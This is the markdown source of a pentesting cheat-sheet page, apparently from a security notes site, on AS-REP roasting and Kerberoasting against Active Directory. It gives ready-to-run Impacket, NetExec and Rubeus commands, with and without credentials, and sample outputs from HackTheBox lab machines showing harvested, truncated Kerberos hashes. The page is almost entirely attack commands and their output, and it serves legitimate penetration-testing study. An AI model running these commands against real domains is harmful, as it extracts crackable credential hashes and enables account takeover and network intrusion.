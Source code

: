 ```yaml
---
title: "Kerberoasting"
date: 2024-7-6
tags: ["Kerberos", "Impacket", "Kerberoasting", "Asreproast", "Rubeus", "Domain Controller", "Active Directory", "Windows", "GetNPUsers"]
---
```


### AS_REP Roasting

{{< tab set1 tab1 >}}Impacket{{< /tab >}}
{{< tab set1 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
# Multiple valid usernames
impacket-GetNPUsers <DOMAIN>/ -usersfile <USERS_FILE> -no-pass -dc-ip <DC_IP>
```

```console {class="sample-code"}
$ impacket-GetNPUsers ABSOLUTE.HTB/ -usersfile valid_usernames.txt -no-pass -dc-ip DC.ABSOLUTE.HTB
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] User j.roberts doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User m.chaffrey doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User s.osvald doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$d.klay@ABSOLUTE.HTB:85554d22d5c220d8a757ce9913d207ea$7288c91ca ...[SNIP]... 0e09c5d9d1
[-] User j.robinson doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User n.smith doesn't have UF_DONT_REQUIRE_PREAUTH set
```

```console
# Single user without creds
impacket-GetNPUsers -no-pass -dc-ip <DC_IP> '<DOMAIN>/<USER>'
```

```console {class="sample-code"}
$ impacket-GetNPUsers -no-pass -dc-ip 10.10.11.181 ABSOLUTE.HTB/d.klay
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[*] Getting TGT for d.klay
$krb5asrep$23$d.klay@ABSOLUTE.HTB:97c9a3ec7b550c29bc52f0c176738e73$ab25b07d4 ...[SNIP]... 78a8e52bb6
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
# Multiple valid usernames
nxc ldap <DC> -u <USERS_FILE> -p '' --asreproast as_rep_hashes.txt
```

```console {class="sample-code"}
$ nxc ldap 10.10.11.181 -u valid_usernames.txt -p '' --asreproast as_rep_hashes.txt
SMB         10.10.11.181    445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.181    445    DC               $krb5asrep$23$d.klay@ABSOLUTE.HTB:5a082acfc8 ...[SNIP]... 06ddb9be16
```

{{< /tabcontent >}}

---

### Kerberoasting (From Linux)

{{< tab set2 tab1 >}}Impacket{{< /tab >}}
{{< tab set2 tab2 >}}nxc{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
# With Password
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>:<PASSWORD>' -dc-ip <DC>
```

```console
# With Kerberos
sudo ntpdate -s <DC> && impacket-GetUserSPNs -request '<DOMAIN>/<USER>' -no-pass -k -dc-host <DC>
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && impacket-GetUserSPNs -request 'scrm.local/ksimpson:ksimpson' -k -dc-host DC1.scrm.local
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-04 00:32:02.351452  2024-09-24 15:53:26.496449             

[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$b62984d5b ...[SNIP]... f4c2161493
```

<small>*Note: Times skew have to be within 5 minutes in kerberos*</small>

```console
# Kerberoasting without cred
sudo ntpdate -s <DC> && impacket-GetUserSPNs -no-preauth <USER_WITH_DONT_REQUIRE_PREAUTH> -usersfile <USERS_FILE> -dc-host <DC> <DOMAIN>/
```

```console {class="sample-code"}
$ sudo ntpdate -s dc01.rebound.htb && impacket-GetUserSPNs -no-preauth jjones -usersfile valid_usernames.txt -dc-host 10.10.11.231 rebound.htb/
Impacket v0.13.0.dev0+20240916.171021.65b774de - Copyright Fortra, LLC and its affiliated companies 

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$d989a5d49 ...[SNIP]... 962d2aa2f2
...[SNIP]...
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
sudo ntpdate -s <DC> && nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt
```

```console {class="sample-code"}
$ sudo ntpdate -s DC1.scrm.local && nxc ldap 10.10.11.168 -u ksimpson -p 'ksimpson' -k --kerberoasting kerberoast_hashes.txt
LDAP        10.10.11.168    389    DC1.scrm.local   [*]  x64 (name:DC1.scrm.local) (domain:scrm.local) (signing:True) (SMBv1:False)
LDAPS       10.10.11.168    636    DC1.scrm.local   [+] scrm.local\ksimpson 
LDAPS       10.10.11.168    636    DC1.scrm.local   Bypassing disabled account krbtgt 
LDAPS       10.10.11.168    636    DC1.scrm.local   [*] Total of records returned 2
LDAPS       10.10.11.168    636    DC1.scrm.local   sAMAccountName: sqlsvc memberOf:  pwdLastSet: 2021-11-04 00:32:02.351452 lastLogon:2024-09-24 15:53:26.496449
LDAPS       10.10.11.168    636    DC1.scrm.local   $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$335aeba3b ...[SNIP]... 9718487474
```

```console
# With socks5 proxy
proxychains4 -q nxc ldap <DC_IP> -u '<USER>' -p '<PASSWORD>' -k --kerberoasting kerberoast_hashes.txt --dns-tcp --dns-server <DC_IP>
```

{{< /tabcontent >}}

### Kerberoasting (From Windows)

{{< tab set3 tab1 >}}rubeus{{< /tab >}}
{{< tabcontent set3 tab1 >}}

```console
.\rubeus.exe kerberoast /creduser:<DOMAIN>\<USER> /credpassword:'<PASSWORD>'
```

{{< /tabcontent >}}
